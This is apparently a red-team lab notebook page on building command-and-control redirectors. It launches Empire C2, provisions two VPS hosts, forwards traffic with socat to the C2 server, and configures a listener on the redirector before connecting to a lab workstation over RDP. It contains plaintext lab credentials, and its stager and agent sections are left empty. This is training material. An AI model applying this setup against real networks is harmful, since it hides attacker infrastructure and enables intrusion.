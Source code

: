 #### Tags: [[12 - Command and Control (TA0011)]]
## Objectives

    Understand the use of redirectors in attack infrastructure
    Create a listener on Empire that will expect redirector routing
    Create stager payloads that will route through the redirector
    Execute the stager payload in the lab environment

## Overview
This lab will focus on the:
- Use of redirectors to create a buffer between the C2 server (Blue Space) and the Target network (Red Space). 
- We will create an account on a Virtual Private Server (VPS) vendor and 
- Provision two VPS's to redirect traffic through.
- Thus, we will leverage Empire C2 stager (Red Space) to perform routing via redirector (Grey Space) to reach the Empire listener (Blue Space).

![[Pasted image 20240310163005.png]]
#### Redirector Communication Pattern
1. C2 Listener will use Redirector IP Address
2. The VPS running Redirector will leverage socat to redirect traffic from Stager (incoming) to Listener (outgoing)
3. C2 Stager will callback to Redirector IP Address
### 1. Launch [[Empire C2#Create an Empire listener|Empire C2 & Setup Communication]]

1. Launch Empire by starting the server 
	1. `sudo ./ps-empire server`
2. Start the StarKiller from the terminal.
	1. `./starkiller-1.9.0.AppImage --no-sandbox`
3. Log into Starkiller UI
	1. `Url: https://localhost:1337 | Username: empireadmin | Password: password123
4. Create certificates for HTTPS, this is optional as Empire normally already has bundled default certificates, but let's do it for good measure.
	1. `cd /opt/Empire/setup/ && ./cert.sh
### 2. Provision VPS
```markdown
# Spawn VPS for redirection:
4-8-15.vpspawn.com with credentials root : 0wnTHEnet!
16-23-42.vpspawn.com with credentials root : ONth3NET?
```
![[Pasted image 20240310165118.png]]

### 3. socat Redirection
1. SSH to your new VPS as root and using one of the passwords provided by vpspawn.com. 
	1. `ssh root@4-8-15.vpspawn.com`
2. Take note of the eth0 adapter's IP, you will need this later.
	1. `ip a`
3. Then create a screen session and run socat using the syntax below:
	1. `screen -S socat443`
	2. `socat TCP4-LISTEN:443,fork TCP4:<C2-IP-Address or Hostname>:443`

Note: The C2 IP addr or hostname can be the value of your tun0 adapter.

Note: The use of screen is a safety mechanism because we can get back to shell that has our socat process if we get disconnected from our redirector.
- To detach from the screen session type` Ctrl+a then d`. 
- To view screen sessions run `screen -ls` 
- To reattach to a detached screen run `screen -r <screen session name>.`

### 4. Create Listener
Create an Empire listener with a Host set to a redirector address
- ###### Listener will have the IP address or hostname of the redirector, and not your tun0 adapter. 
- ###### Stager will have the Redirector IP / Host value will be used for communication, and not want your C2 server's address or hostname here.

Select http in the drop down menu. Then provide the following values:

    Name: interactive-https
    Host: https://10.130.7.5:443 <- This must be the ip address or hostname of the redirector
    Port: 443
    Bind IP: 0.0.0.0
    StagingKey: AddSomethingRandomTo32Characters
    CertPath: /opt/Empire/empire/server/data

Leave the rest as defaults and click the SUBMIT button in the upper right corner of the screen.
### 5. Create Stager
- Create a stager payload

#### 6. Deliver Stager
- Execute the stager to create an Agent in the target environment via RDP: 
`xfreerdp +clipboard /cert-ignore /u:Gareth.Kilgallen /p:Hu825meapvsAq#Rx /v:wk01.draconem.corp

#### 7. Agent Interaction

```markdown
```

### Conclusion


### Resources | Notes | Bonus

```markdown
```

#### Notes
- Add a link to Empire on how we are leveraging C2 stager to perform routing via redirector to reach the Empire listener





## Conclusion
